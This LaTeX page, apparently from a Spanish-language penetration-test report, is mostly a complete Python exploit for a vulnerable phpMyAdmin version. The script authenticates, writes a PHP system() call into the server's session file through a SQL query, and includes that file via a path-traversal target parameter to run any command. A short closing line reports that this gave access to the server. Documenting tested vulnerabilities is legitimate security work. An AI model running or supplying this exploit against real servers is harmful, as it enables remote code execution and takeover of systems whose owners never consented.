 \documentclass[a4paper]{article} %
\begin{document}
  \begin{lstlisting}[language=Python, caption=Exploit para la version vulnerable de PhpMyAdmin]

#!/usr/bin/env python

import re, requests, sys, html


def get_token(content):
  s = re.search('token"\s*value="(.*?)"', content)
  token = html.unescape(s.group(1))
  return token

ipaddr = sys.argv[1]
port = sys.argv[2]
path = sys.argv[3]
username = sys.argv[4]
password = sys.argv[5]
command = sys.argv[6]

url = "http://{}:{}{}".format(ipaddr,port,path)

url1 = url + "/index.php"
r = requests.get(url1)
content = r.content.decode('utf-8')

s = re.search('PMA_VERSION:"(\d+\.\d+\.\d+)"', content)
version = s.group(1)

cookies = r.cookies
token = get_token(content)

p = {'token': token, 'pma_username': username, 'pma_password': password}
r = requests.post(url1, cookies = cookies, data = p)
content = r.content.decode('utf-8')
s = re.search('logged_in:(\w+),', content)
logged_in = s.group(1)

cookies = r.cookies
token = get_token(content)

url2 = url + "/import.php"
payload = '''select '<?php system("{}") ?>';'''.format(command)
p = {'table':'', 'token': token, 'sql_query': payload }
r = requests.post(url2, cookies = cookies, data = p)

session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)

content = r.content.decode('utf-8', errors="replace")
s = re.search("select '(.*?)\n'", content, re.DOTALL)
if s != None:
  print(s.group(1))

  \end{lstlisting}

  \clearpage

  Una vez ejecutado e inyectando un comando que permitiera iniciar al sistema, se logro ganar acceso al servidor:

  \begin{figure}[h]

    \centering
    \setlength{\fboxrule}{0.8pt}
      \caption{Ganando acceso al servidor a través de la explotacion de PhpMyAdmin}
  \end{figure}
\end{document}
